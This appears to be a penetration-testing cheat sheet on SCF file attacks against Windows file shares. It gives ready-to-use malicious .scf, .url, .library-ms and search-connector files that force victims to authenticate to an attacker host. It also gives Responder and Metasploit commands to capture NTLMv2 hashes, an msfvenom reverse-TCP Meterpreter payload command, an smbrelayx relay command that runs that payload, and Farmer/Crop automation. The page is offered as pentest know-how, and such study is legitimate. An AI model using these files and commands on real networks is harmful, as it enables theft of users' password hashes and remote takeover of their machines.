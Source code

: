 # SCF File Attacks

SMB is a protocol which is widely used across organisations for file sharing purposes. It is not uncommon during internal penetration tests to discover a file share which contains sensitive information such as plain-text passwords and database connection strings. However even if a file share doesn’t contain any data that could be used to connect to other systems but it is configured with write permissions for unauthenticated users then it is possible to obtain passwords hashes of domain users or Meterpreter shells.

## Gathering Hashes

It is not new that SCF \(Shell Command Files\) files can be used to perform a limited set of operations such as showing the Windows desktop or opening a Windows explorer. However a SCF file can be used to access a specific UNC path which allows the penetration tester to build an attack. The code below can be placed inside a text file which then needs to be planted into a network share.

### SCF Files

Drop the following `@something.scf` file inside a share and start listening with Responder : `responder -wrf --lm -v -I eth0`

```text
[Shell]
Command=2
IconFile=\\X.X.X.X\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```

Saving the  file as SCF file will make the file to be executed when the user will browse the file. Adding the @ symbol in front of the filename will place the file.scf on the top of the share drive.

### **URL Files**

This attack also works with `.url` files and `responder -I eth0 -v`.

```text
[InternetShortcut]
URL=whatever
WorkingDirectory=whatever
IconFile=\\10.10.10.10\%USERNAME%.icon
IconIndex=1
```

### **Windows Library Files**

Windows Library Files \(.library-ms\)

```text
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="<http://schemas.microsoft.com/windows/2009/library>">
  <name>@windows.storage.dll,-34582</name>
  <version>6</version>
  <isLibraryPinned>true</isLibraryPinned>
  <iconReference>imageres.dll,-1003</iconReference>
  <templateInfo>
    <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
  </templateInfo>
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <isDefaultSaveLocation>true</isDefaultSaveLocation>
      <isSupported>false</isSupported>
      <simpleLocation>
        <url>\\\\workstation@8888\\folder</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>
```

### **Windows Search Connectors Files**

Windows Search Connectors \(.searchConnector-ms\)

```text
<?xml version="1.0" encoding="UTF-8"?>
<searchConnectorDescription xmlns="<http://schemas.microsoft.com/windows/2009/searchConnector>">
    <iconReference>imageres.dll,-1002</iconReference>
    <description>Microsoft Outlook</description>
    <isSearchOnlyItem>false</isSearchOnlyItem>
    <includeInStartMenuScope>true</includeInStartMenuScope>
    <iconReference>\\\\workstation@8888\\folder.ico</iconReference>
    <templateInfo>
        <folderType>{91475FE5-586B-4EBA-8D75-D17434B8CDF6}</folderType>
    </templateInfo>
    <simpleLocation>
        <url>\\\\workstation@8888\\folder</url>
    </simpleLocation>
</searchConnectorDescription>
```

Responder needs to be executed with the following parameters to capture the hashes of the users that will browse the share.

```text
responder -wrf --lm -v -I vboxnet0
```

![](../../../.gitbook/assets/image%20%28256%29.png)

When the user will browse the share a connection will established automatically from his system to the UNC path that is contained inside the SCF file. Windows will try to authenticate to that share with the username and the password of the user. During that authentication process a random 8 byte challenge key is sent from the server to the client and the hashed NTLM/LANMAN password is encrypted again with this challenge key. Responder will capture the NTLMv2 hash.

![](../../../.gitbook/assets/image%20%28251%29.png)

Alternatively to Responder, Metasploit Framework has a module which can be used to capture challenge-response password hashes from SMB clients.

```text
auxiliary/server/capture/smb
```

![](../../../.gitbook/assets/image%20%28249%29.png)

As previously when the user will browse the same share his password hash will be captured by Metasploit.

![](../../../.gitbook/assets/image%20%28252%29.png)

If the password policy inside the company is sufficient it will take possibly days or weeks for the attacker to crack the captured hash.

## Meterpreter Shells

The main advantage of the technique above it that it doesn’t require any user interaction and automatically enforces the user to connect to a share the doesn’t exist negotiating his NTLMv2 hash. Therefore it is also possible to combine this technique with SMB relay that will serve a payload in order to retrieve a Meterpreter shell from every user that will access the share.

MSFVenom can be used to generate the payload that it will executed on the target:

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.171 LPORT=5555 -f exe > pentestlab.exe
```

Coresecurity has released a set of python scripts called [Impacket](https://github.com/CoreSecurity/impacket) that can perform various attacks against Windows protocols such as SMB. Using the **smbrelayx** python script it is possible to set up and SMB server that will serve a payload when the target host will try to connect. This will performed automatically since the SCF file will enforce every to user to connect to a non-existing share with their credentials.

```text
./smbrelayx.py -h Target-IP -e ./pentestlab.exe
```

![](../../../.gitbook/assets/image%20%28255%29.png)

Metasploit Framework needs to be used as well in order to receive back the connection upon execution of the pentestlab.exe on the target.

![](../../../.gitbook/assets/image%20%28247%29.png)

When the user will browse the share the SMB server will receive the connection and it will use the username and the password hash to authenticate with his system and execute the payload to a writable share.

![](../../../.gitbook/assets/image%20%28253%29.png)

A Meterpreter session will received. However in order to avoid losing the connection it is necessary to migrate to a more stable process.

## Automation

Theses attacks can be automated with [Farmer.exe](https://github.com/mdsecactivebreach/Farmer) and [Crop.exe](https://github.com/mdsecactivebreach/Farmer/tree/main/crop)

```text
# Farmer to receive auth
farmer.exe <port> [seconds] [output]
farmer.exe 8888 0 c:\windows\temp\test.tmp # undefinitely
farmer.exe 8888 60 # one minute

# Crop can be used to create various file types that will trigger SMB/WebDAV connections for poisoning file shares during hash collection attacks
crop.exe <output folder> <output filename> <WebDAV server> <LNK value> [options]
Crop.exe \\\\fileserver\\common mdsec.url \\\\workstation@8888\\mdsec.ico
Crop.exe \\\\fileserver\\common mdsec.library-ms \\\\workstation@8888\\mdsec
```







